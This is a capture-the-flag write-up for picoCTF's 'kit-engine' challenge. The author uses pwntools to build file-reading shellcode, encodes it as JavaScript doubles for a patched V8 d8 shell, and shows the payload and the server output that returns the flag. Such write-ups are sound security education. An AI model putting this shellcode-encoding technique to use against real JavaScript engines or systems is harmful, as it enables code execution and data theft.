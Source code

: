 # kit-engine

Shellcode

## Download the Binary

The executable has some size to it (146Mb), so it won't be included in the repo. You can download it [here](https://mercury.picoctf.net/static/57bf78fb7f9fd6e29e72762cc8460f70/d8). 

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/kit-engine/d8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

None of this really matters because the patched (by the challenge creators) d8 shell literally will run our shellcode for us. 

## Overview of Binary

V8 is Google's own JavaScript (and WebAssembly) engine that is used in Chrome, and d8 is V8's own developer shell (and JS interpreter). A quick introduction to d8 is accessible [here](https://v8.dev/docs/d8). 

In this challenge, a patch is applied to the source code of the d8 shell which provides 2 helpful functions in the global template of the intepreted JS script - `AssembleEngine` and `Breakpoint`. 

While the exact details of implementation are available in the [patch file](./source/patch), concisely, 
- `AssembleEngine()` accepts exactly 1 argument, an array of doubles, of which each is interpreted as an unsigned 64-bit long int to be written into an `mmap`-ed piece of memory which is then executed as shellcode. 
- `Breakpoint()` requires no arguments. It simply contains an `int3` interrupt instruction that occurs when the function is called in the interpreted JS so that a debugger can be used to step through subsequent instructions. 

The reason why the API for `AssemblyEngine()` is an array of doubles is probably so that
1. we no longer have to worry about special characters causing issues (the handling of which would be specific to the JS spec/version and/or the interpreter in d8), and to
2. make the challenge harder (`AssembleEngine` could have accepted unsigned 64-bit ints and it would probably still work)

To illustrate `AssemblyEngine()`, consider the following single-line script in a `test.js` file which we run with d8 using the command `./d8 test.js`

```js 
AssembleEngine([1.1, 1.1])
```

The output is

```c
Memory Dump. Watch your endianness!!:
0: float 1.100000 hex 3ff199999999999a
1: float 1.100000 hex 3ff199999999999a
Starting your engine!!
Received signal 4 ILL_ILLOPN 7f370ee0e000

==== C stack trace ===============================

 [0x557e1fc4ecd7]
 [0x7f370ead9520]
 [0x7f370ee0e000]
[end of stack trace]
Illegal instruction
```

## Finding the original `src/d8/d8.cc` and `src/d8/d8.h` (Not required)

> This is not necessary, but I did this because I thought the patch would expose a vulnerability (instead of directly being the solution) in the d8 binary that would only be able to be found by looking through the source code. 

We first have to `git clone` the repo from https://github.com/v8/v8 before we can begin digging for the files. 

The first few lines of `patch` reveal part of the hash of the blob of the unmodified d8.cc file. 

```
diff --git a/src/d8/d8.cc b/src/d8/d8.cc
index e6fb20d152..35195b9261 100644
--- a/src/d8/d8.cc
+++ b/src/d8/d8.cc
```

We can then use git's `cat-file` functionality to dump the file out, where the `-p` option instructs `cat-file` to figure the type of content before dumping it. 

```bash
git cat-file -p e6fb20d152 > ../original_d8.cc
```

Similar steps can be performed to obtain the pre-patched `d8.h` file. 

## Spawn a shell?

Notice the following lines in [server.py](./server.py). 

```python
with tempfile.NamedTemporaryFile(buffering=0) as f:
    f.write(script_contents.encode("utf-8"))
    p("File written. Running. Timeout is 20s")
    res = subprocess.run(["./d8", f.name], timeout=20, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    p("Run Complete")
    p(f"Stdout {res.stdout}")
    p(f"Stderr {res.stderr}")
```

`server.py` isn't going to let us interact with our process, so we can't just use the shellcode `pwnlib.shellcraft.amd64.linux.sh` to spawn a local shell and try to type in "cat flag.txt" as is typically done in for most Pwn challenges. 

Instead, we use pwntool's `pwnlib.shellcraft.amd64.linux.cat` to cat the flag, which uses an `open` and a `sendfile` syscall to send the contents of the fd (file descriptor) returned by `open` to stdout (fd 1). 

> Side note: We could spawn bind shell / reverse shell and remotely interact with the shell within the 20s timeout, but that's (in my opinion) over-complicating this challenge. 

## Payload

The shellcode is crafted with provisions made to
1. pad the payload with nops to the 8-byte boundary for easy conversion into doubles, and
2. change `ffffff7f` to `01010101` so that none of the doubles become NaNs (see the [IEEE 754 FP standard](https://en.wikipedia.org/wiki/IEEE_754#Special_values) for the interpretation when the exponent portion is all 1s or all 0s). 

Shellcode construction is shown below, and the rest of the solve script can be accessed at [solve.py](./solve.py). 

```python
# Construct bytecode to cat flag.txt
payload_asm = shellcraft.amd64.linux.cat('flag.txt', 1)

# Change the no. of bytes to be sent in the sendfile syscall from 0x7fffffff to 0x01010101 so that the double doesn't become a NaN
payload_asm = payload_asm.replace('0x7fffffff', '0x01010101')
payload_bytes = asm(payload_asm)

# Pad the end of payload_bytes with nops up till the 8-byte boundary (since doubles are 8-bytes long)
padding = (8 - len(payload_bytes)%8) * asm(pwnlib.shellcraft.amd64.nop())
payload_bytes += padding
```

## Flag

```bash
[*] payload_bytes.hex()='6a01fe0c2448b8666c61672e747874506a02584889e731f60f0541ba010101014889c66a28586a015f990f0590909090'
[*] 48
[*] payload_js='AssembleEngine([6.603257119849832e+186, 3.792519361765274e+79, -2.2023024389345214e+261, 7.748609217167448e-304, 7.683199690136903e-302, -6.82852360667106e-229])'
[+] Opening connection to mercury.picoctf.net on port 17805: Done
[*] Switching to interactive mode

AssembleEngine([6.603257119849832e+186, 3.792519361765274e+79, -2.2023024389345214e+261, 7.748609217167448e-304, 7.683199690136903e-302, -6.82852360667106e-229])
File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{vr00m_vr00m_ ca5a2f612129286}\n'
Stderr b'Received signal 11 SEGV_MAPERR 000000000026\n\n==== C stack trace ===============================\n\n [0x55a17e3f1cd7]\n [0x7f738eca3980]\n [0x7f738f0d8030]\n[end of stack trace]\n'
```

The SEGV_MAPERR is due to the shellcode not returning after it concludes its syscalls (at least that's what I got when running it locally) - the CPU is simply attempting to decode the uninitialized data after the shellcode as instructions. 